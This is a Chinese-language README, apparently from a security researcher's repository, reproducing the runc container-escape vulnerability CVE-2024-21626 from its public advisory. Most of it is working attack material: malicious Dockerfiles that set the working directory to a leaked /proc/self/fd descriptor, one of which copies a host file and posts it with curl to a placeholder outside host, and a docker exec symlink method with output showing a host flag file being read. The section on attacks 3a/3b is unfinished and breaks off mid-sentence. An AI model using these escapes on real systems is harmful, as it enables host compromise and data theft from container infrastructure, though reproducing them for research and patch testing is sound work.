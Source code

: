 # CVE-2024-21626

## Analyze

> `runc run` 或者 `runc exec` 的过程中有存在没有及时关闭的 `fd` ，导致文件描述符泄漏在容器环境中，用户可以通过这个文件描述来进行容器逃逸。

## Attack

attack是复现[several container breakouts due to internally leaked fds · Advisory · opencontainers/runc ](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)公告中的这些攻击方式

### Attack 1

即恶意镜像：

```
FROM ubuntu:22.04
RUN ls -al ./
WORKDIR /proc/self/fd/8
```

运行了恶意镜像的人就会被逃逸。

```bash
docker build -t evil .
docker run --rm -it evil bash
```



另外一种则是在build的时候就可以触发，但是一般目标环境也不会自己build吧：

```
FROM ubuntu:22.04
WORKDIR /proc/self/fd/7
RUN cp -r ../../../../../flag /flag
WORKDIR /
RUN apt update && apt-get install -y --no-install-recommends curl ca-certificates
RUN curl -XPOST --data-binary @/flag http://xxxx:xxx/
```

![image-20240203145232809](README.assets/image-20240203145232809.png)





### Attack 2

即`runc exec`来触发，目标环境如果执行`docker exec`并且设置了cwd就会触发，但是需要知道目标的cwd：

```bash
#先启动一个容器
docker run -it --rm --name uu ubuntu:22.04 bash

ln -s /proc/self/fd/7 /tmp/feng
#受害者执行docker exec
docker exec -w /tmp/feng -it 17478b3af345 bash

#攻击者获取pid和cwd，逃逸。
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.1   4628  3896 pts/0    Ss   06:55   0:00 bash
root          10  0.1  0.1   4628  3732 pts/1    Ss+  06:56   0:00 bash
root          18  0.0  0.0   7064  1560 pts/0    R+   06:56   0:00 ps aux

cat /proc/10/cwd/../../../../flag
flag{test}
```







### Attack 3a and 3b

3a和3b都是用来重写主机的二进制文件但是3a是通过恶意镜像，3b是通过`run exec`。

但是具体怎么重写没太懂，利用方式应该类似于CVE-2019-5736，但是

## References

[CVE-2024-21626 容器逃逸漏洞分析](https://bestwing.me/CVE-2024-21626-container-escape.html)

[several container breakouts due to internally leaked fds · Advisory · opencontainers/runc](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)